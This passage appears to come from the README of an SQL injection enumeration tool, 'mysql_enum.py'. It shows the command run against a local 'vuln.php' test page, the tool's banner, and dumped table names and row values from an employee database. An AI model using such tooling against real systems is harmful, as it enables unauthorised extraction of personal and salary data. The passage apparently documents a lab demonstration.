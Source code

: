     | 8   | 1988-09-09 |
    | 9   | 1992-08-02 |
    | 10  | 1996-08-30 |
    | 11  | 1985-01-01 |
    | 12  | 1992-04-25 |
    | 13  | 1985-01-01 |
    | 14  | 1989-05-06 |
    | 15  | 1991-09-12 |
    | 16  | 1994-06-28 |
    | 17  | 1985-01-01 |
    | 18  | 1991-03-07 |
    | 19  | 1985-01-01 |
    | 20  | 1991-04-08 |
    | 21  | 1985-01-01 |
    | 22  | 1988-10-17 |
    | 23  | 1992-09-08 |
    | 24  | 1996-01-03 |
    +-----+------------+
    Enumerate rows for another table? [y/n, default:n]: n

**Enumerating full row contents of any long rows found**

    $python3 mysql_enum.py -f -u "http://127.0.0.1/vuln.php"

         ______  _     _  _    _____  _       _______ ______  _     _ ______
        |  ___ \| |   | || |  / ___ \| |     (_______)  ___ \| |   | |  ___ \
        | | _ | | |___| | \ \| |   | | |      _____  | |   | | |   | | | _ | |
        | || || |\_____/   \ \ |   |_| |     |  ___) | |   | | |   | | || || |
        | || || |  ___ _____) ) \____| |_____| |_____| |   | | |___| | || || |
        |_||_||_| (___|______/ \_____)_______)_______)_|   |_|\______|_||_||_|
                                                                        @pyrod

    +-----+----------------------+
    | No. | Tables               |
    +-----+----------------------+
    | 1   | current_dept_emp     |
    | 2   | departments          |
    | 3   | dept_emp             |
    | 4   | dept_emp_latest_date |
    | 5   | dept_manager         |
    | 6   | employees            |
    | 7   | salaries             |
    | 8   | titles               |
    +-----+----------------------+